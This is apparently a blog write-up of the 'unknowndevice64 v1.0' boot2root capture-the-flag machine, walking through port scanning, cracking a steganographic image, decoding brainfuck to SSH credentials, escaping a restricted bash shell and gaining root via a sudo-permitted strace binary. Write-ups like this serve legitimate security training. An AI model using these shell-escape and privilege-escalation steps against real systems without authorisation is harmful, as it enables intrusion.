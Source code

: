 ```yaml
---
layout: post
title: CTF unknowndevice64-1
date:   2022-01-19 13:51:42 -0600
categories: CTF
tags: Linux
---
```


# Intro
Description: unknowndevice64 v1.0 is a medium level boot2root challenge. The OVA has been tested on both VMware and Virtual Box.

Difficulty: Intermediate

Flags: Your Goal is to get root and read /root/flag.txt

Networking:

    DHCP: Enabled
    IP Address: Automatically assigned

Hint: Follow your intuitions ... and enumerate! and for any questions, feel free to contact me on Twitter: @unknowndevice64

Happy Hacking..!!!


# Scan
## netdiscover
![](https://i.imgur.com/eHoR0KN.png)
192.168.0.40

## nmap
```zsh
nmap 192.168.0.40 -sV -p-
```
![](https://i.imgur.com/x34ICSR.png)

## python http server

![](https://i.imgur.com/M0aeDlW.png)

In the source code we can found  this picture. 
![](https://i.imgur.com/1lZ5Nxd.png)
http://192.168.0.40:31337/key_is_h1dd3n.jpg
It's interesting, I will do someting on it later.

## nikto
nothing interesting

## Metadata
```zsh
dentify -verbose key_is_h1dd3n.jpg
```
Nothing interesting
```zsh
file key_is_h1dd3n.jpg
```
key_is_h1dd3n.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 300x300, components 1

## Crack key_is_h1dd3n.jpg

I use this tool.
https://github.com/Paradoxis/StegCracker

```zsh
echo "h1dd3n" > ahhh.txt  
stegcracker key_is_h1dd3n.jpg ahhh.txt 
```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++++++++++++++.-----------------.<----------------.--.++++++.---------.>-----------------------.<<+++.++.>+++++.--.++++++++++++.>++++++++++++++++++++++++++++++++++++++++.-----------------.

This is the output, the password was h1dd3n, it's write in the file name lol.

## decoder detector

https://www.dcode.fr/identification-chiffrement 
![](https://i.imgur.com/uPDeBBP.png)

I have to use brainfuck.

## Decode brainfuck
Seriously, I was stuck on this web page for 2 minutes because I was unable to see the output on the left...

![](https://i.imgur.com/w5bKNVI.png)
`ud64:1M!#64@ud`

## ssh

```zsh
ssh ud64@192.168.0.40 -p 1337
```
password:
`1M!#64@ud`

It's broken everywhere.
-rbash: /bin/ls: restricted: cannot specify `/' in command names
But I can use vi.

## $PATH

The PATH variable is almost empty.
```zsh
ud64@unknowndevice64_v1:~$ echo $PATH
/home/ud64/prog
ud64@unknowndevice64_v1:~$ export PATH=$PATH:/usr/local/bin
-rbash: PATH: readonly variable
```
There is something in prog.
I use TAB to show what is in the directory.
```zsh
ud64@unknowndevice64_v1:~$ ls 
.bash_history  .screenrc      Downloads/     Public/        web/           
.bash_profile  Desktop/       Music/         Videos/        
.config/       Documents/     Pictures/      prog/          
ud64@unknowndevice64_v1:~$ ls prog/
date    id      vi      whoami  
```
I have edited the .bash_profile to change the PATH.
```zsh
PATH=$HOME/prog:/usr/local/bin:/usr/bin:/bin
```
Some commands still don't work but it's good for python
```zsh
python -c 'import pty; pty.spawn("/bin/bash")'
```
Now everything is working.



## sudo -l
```zsh
ud64@unknowndevice64_v1:~$ sudo -l
User ud64 may run the following commands on unknowndevice64_v1:
    (ALL) NOPASSWD: /usr/bin/sysud64
```
Let's try it.
```zsh
sudo /usr/bin/sysud64 su
```
Oh god, it's broken everywhere, but I'm root, gg wp.
![](https://i.imgur.com/tQ6gOQP.png)

## sysud64
```zsh
ud64@unknowndevice64_v1:~$ sudo /usr/bin/sysud64 -V
strace -- version 4.22
Copyright (c) 1991-2018 The strace developers <https://strace.io>.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.

Optional features enabled: stack-unwind stack-demangle m32-mpers mx32-mpers
```
It's strace. let's see in gtfobin what we can do.
https://gtfobins.github.io/gtfobins/strace/
strace -o /dev/null /bin/sh
So for me it will be: 
```zsh
sudo /usr/bin/sysud64 -o /dev/null /bin/sh
```
![](https://i.imgur.com/nrUj5ko.png)

![](https://i.imgur.com/ysLaZBM.png))







